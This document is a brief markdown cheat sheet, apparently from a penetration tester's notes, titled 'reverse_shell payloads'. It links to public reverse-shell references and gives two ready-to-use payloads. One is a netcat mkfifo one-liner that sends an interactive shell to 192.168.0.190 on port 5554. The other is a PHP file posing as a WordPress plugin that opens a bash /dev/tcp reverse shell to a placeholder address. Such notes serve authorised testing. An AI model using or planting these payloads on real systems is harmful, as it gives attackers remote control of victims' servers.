 ### reverse_shell payloads

Link: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md


https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet



#### Shell
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
```


#### PHP

```
<?php
/**
 * Plugin Name: Wordpress Reverse Shell
 * Author: azkrath
 */
exec(“/bin/bash -c ‘bash -i >& /dev/tcp/<IP>/<Port> 0>&1’”)
?>
```